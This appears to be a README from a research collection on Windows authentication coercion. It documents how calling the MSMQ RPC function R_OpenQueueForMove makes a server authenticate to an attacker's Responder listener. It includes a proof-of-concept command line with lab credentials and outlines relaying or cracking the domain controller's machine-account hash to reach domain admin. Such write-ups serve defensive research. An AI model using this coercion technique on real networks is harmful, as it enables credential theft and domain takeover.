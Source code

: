 # MS-MQRR - Remote call to R_OpenQueueForMove (opnum 11)

## Summary

+ **Protocol**: [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1)

+ **Protocol UUID**: 1a9134dd-7b39-45ba-ad88-44d01ca47f28

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`R_OpenQueueForMove`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/960e383b-d0c9-482f-9617-2507d1dc0487)

+ **Function operation number**: `11`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol (with uuid `1a9134dd-7b39-45ba-ad88-44d01ca47f28` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) and allows to call RPC functions of this protocol. We will then call the remote [`R_OpenQueueForMove`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/960e383b-d0c9-482f-9617-2507d1dc0487) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_OpenQueueForMove('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
void R_OpenQueueForMove(
   [in] handle_t hBind,
   [in] QUEUE_FORMAT* pQueueFormat,
   [in] DWORD dwAccess,
   [in] DWORD dwShareMode,
   [in] GUID* pClientId,
   [in] LONG fNonRoutingServer,
   [in] unsigned char Major,
   [in] unsigned char Minor,
   [in] USHORT BuildNumber,
   [in] LONG fWorkgroup,
   [out] ULONGLONG* pMoveContext,
   [out] QUEUE_CONTEXT_HANDLE_SERIALIZE* pphContext
 );
```

## References

+ Documentation of protocol [MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1

+ Documentation of function `R_OpenQueueForMove`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/960e383b-d0c9-482f-9617-2507d1dc0487